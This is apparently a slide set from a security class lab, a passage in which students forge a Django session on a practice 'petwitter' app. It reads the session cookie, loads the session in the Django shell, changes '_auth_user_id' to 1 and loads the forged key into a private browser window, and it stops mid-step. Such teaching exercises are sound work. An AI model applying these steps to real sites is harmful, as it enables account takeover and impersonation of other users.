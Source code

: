 

### Implementation notes (1/4)

* In your browser, open up the console, and type: ```document.cookie```
* You'll see something like:
```sessionid="foo:bar"; csrftoken=Iv2HhT3i20ft5zKdWTZ6YdofnHlAqrQQ"```
* Pull out just the `sessionid` component - in this case ```"foo:bar"``` - we'll use this later.

---

### Implementation notes (2/4)

Get the app running locally:

```
git clone https://github.com/petwitter/petwitter.git
cd petwitter
virtualenv env
env/bin/pip install -r requirements.txt
env/bin/python thesite/manage.py shell
```

---

### Implementation notes (3/4)

Load the data as follows:

```
>>> from importlib import import_module
>>> from django.conf import settings
>>> session_module = import_module(settings.SESSION_ENGINE)
>>> session_data = session_module.SessionStore(session_key="foo:bar")
# Use whatever the sessionid= value was from your cookie
>>> print session_data.load()
{
    '_auth_user_backend':
        'django.contrib.auth.backends.ModelBackend',
    '_auth_user_id':
        2,
}
```

---

### Implemenation notes (4/4)

Now, modify the data:

```
>>> session_data['_auth_user_id'] = 1
>>> session_data.save()
```

And extract something you can put into your browser:

```
>>> print session_data.session_key
'new:thing'
```

* Now let's transfer that cookie into your browser.
* Open an _Incognito Window_ or _Private Window_, and visit your group's _petwitter_ instance.
```